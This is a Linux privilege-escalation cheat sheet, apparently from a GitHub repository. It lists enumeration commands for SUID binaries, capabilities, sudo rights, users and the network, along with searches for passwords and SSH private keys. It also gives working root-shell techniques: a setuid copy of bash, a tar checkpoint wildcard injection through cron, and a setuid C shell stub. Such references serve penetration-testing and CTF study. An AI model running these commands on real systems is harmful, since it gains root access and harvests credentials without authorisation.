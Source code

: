 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - uname -a 

Proccesses,services - ps aux, ps aux | grep root

Suid - find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null

trace - strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

Capabilities - getcap -r / 2>/dev/

NFS - cat /etc/exports

Architechture and cpu info - lscpu

## User Enumeration

Info about user - whoami, id

What can we run as sudo - sudo -l

Users - cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

## Network Enumeration

IP info - ifconfig,

Routing info - ip route

Connections - netstat

## Password Hunting

Password phrases - grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null

Password files - locate password

Finding ssh keys - find / -name id_rsa 2> /dev/null

### Useful commands

echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file

cron wildcards
'''
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
/tmp/bash -p

'''
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker